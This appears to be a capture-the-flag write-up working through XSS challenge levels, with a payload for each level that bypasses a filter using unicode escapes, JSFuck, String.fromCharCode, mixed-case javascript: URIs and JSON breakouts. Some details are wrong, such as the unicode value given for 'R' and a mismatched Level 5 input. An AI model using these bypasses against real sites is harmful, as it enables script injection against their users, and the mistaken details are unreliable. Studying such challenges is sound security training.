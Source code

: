**Sources**
1) https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-1-0190257/
### Level 1
Solution is trivial. Add `<script>callFunction()</script>` and call your function.

### Level 2
First note is that in our scope we are within HTML tag context (in the body). So we can use unicode to input our characters as the character `n` is being filtered out.

The unicode for `n` is `\u006E`
So `<script>fancyFunction("48")</script>`
becomes `<script>fa\u006EcyFu\u006Ectio\u006E("48")</script>`

### Level 2 cont.
Identical to level 2 but now the character `R` (upper case) is filtered.
The unicode for `R` is `\u006E`. Trying to input this shows that the unicode is not being evaluated and is treated as a string:
```
<body>
    Hello, \u006E`
  </body>
```
To get the character `r` I use a javascript function to "generate" the "R" from it's ascii value.
```javascript
<script>eval(`brave${String.fromCharCode(82)}obot`)("63");</script>
```

*tip*: We can find the ascii value of any character with the following Javascript:
`"R".charCodeAt(0)`

### Level 3
Here we have two limitations:
1) Unable to use a space character
2) Unable to use `0`

Presumably the 0 was not allowed to avoid allowing me to use null chars or unicode.
`x"/onerror="kindSuperHero('1'+(1-1)+'3')`
Instead, I am able to use a `/` as a space in the attribute (*source 1*) which separated the `"x"` from `onerror` and can simply evaluate a `0` in the Javascript with `1-1`.

### Level 4
Here our limitation was simply disallowing `3`. Here we use the same as Level 2 but get `3` using it's ascii value of 51. We can use template literals to inject the value into the string:
```
<script>prettyFunction(`16${String.fromCharCode(51)}80`)</script>
```

### Level 4 cont.
We are given a limitation of not being able to use `r` in our payload.
With other examples, we can use Javascript to generate the character.
Here we are inside of an `<a>`'s href attribute:

```
<body>
  <a
    href="(payload)"
    title="Click me"
  >
    Click me
  </a>
</body>
```
To inject our payload we can use the `javascript:` uri to execute it. After `:` is when our Javascript is executed meaning the string `javascript` itself can't use JS to evaluate the `r` that is needed for the string.

Fortunately, it's not case sensitive. `javascRipt:` becomes our workaround.

I also use `jsfuck` to generate the `r` character instead of the previous methods.
Final solution:
```
javascRipt:eval(`tallSupe${(!![]+[])[+!+[]]}He${(!![]+[])[+!+[]]}o`)('45615')
```
Output:
```
<body>
    <a
      href="javascRipt:eval(`tallSupe${(!![]+[])[+!+[]]}He${(!![]+[])[+!+[]]}o`)('45615')"
      title="Click me"
    >
      Click me
    </a>
  </body>
```

### Level 5
As with level 4 part 1, it's a simple filter for `n`. Used JSfuck to generate the `n` once again.
in: ``` <script>eval(`prettyHuma${([][[]]+[])[+!+[]]}`)("xjsr3t")</script> ```
out: ```<body>Hello, <script>eval(`prettyHuma${([][[]]+[])[+!+[]]}`)("xjsr3t")</script></body>```

### Level 5 cont.
As with level 4 part 2, characters `A T` are not allowed. In this instance I assign `char` as a variable for `t` as it's needed in the JS payload twice.
in: ```jaAvascriptT:var char = (!![]+[])[+[]]; eval(`elegan${char}Human`)('ffhdb'+char)```
out:  
```
<body>
    <a
      href="jAvascripT:var char = (!![]+[])[+[]]; eval(`elegan${char}Human`)('ffhdb'+char)"
      title="Click me"
    >
      Click me
    </a>
  </body>
  ```
### Level 6
We have the following:

```html
<body>
  Hello, <span id="hello" />

  <script>
    var hello = '(payload)';

    document.getElementById('hello').innerHTML = hello;
  </script>
</body>
```
We are not allowed to use the letters `a,t` or space. This disallows us from using `eval` or `atob` for base64 strings.
We can either stay inside our Javascript context by breaking out of the quotes in the hello variable and continuing to write our own javascript.
Or we can write HTML into the `span` element as the script will add any text we create to that element.

We pick the second option and use the same unicode trick we used before to get our characters back:
in: ```<img/src="x"/onError="poli\u0074eRobo\u0074(`ezn0vio`)"></img>```
out:

```html
<body>
  Hello, <span id="hello" />

  <script>
    var hello = '<img/src="x"/onError="poli\u0074eRobo\u0074(`ezn0vio`)"></img>';

    document.getElementById('hello').innerHTML = hello;
  </script>
</body>
```

### Level 6
We have the following:
```html
<body>
  <script>
    window.appData = {
      "name": "(payload)"
    };
  </script>
</body>
```
We are already within Javascript context and we can easily break free and add an attribute to window.appData by simply adding on to where we've been inputted. We can make one of the object attributes equal to the value of the function we need to call.

Final payload
in: `","xss":eleg\u0061\u006EtRobot('2jp643zb'),"":"`
out: 
```html
<body>
  <script>
    window.appData = {
      "name": "","xss":eleg\u0061\u006EtRobot('2jp643zb'),"":""
    };
  </script>
</body>
```
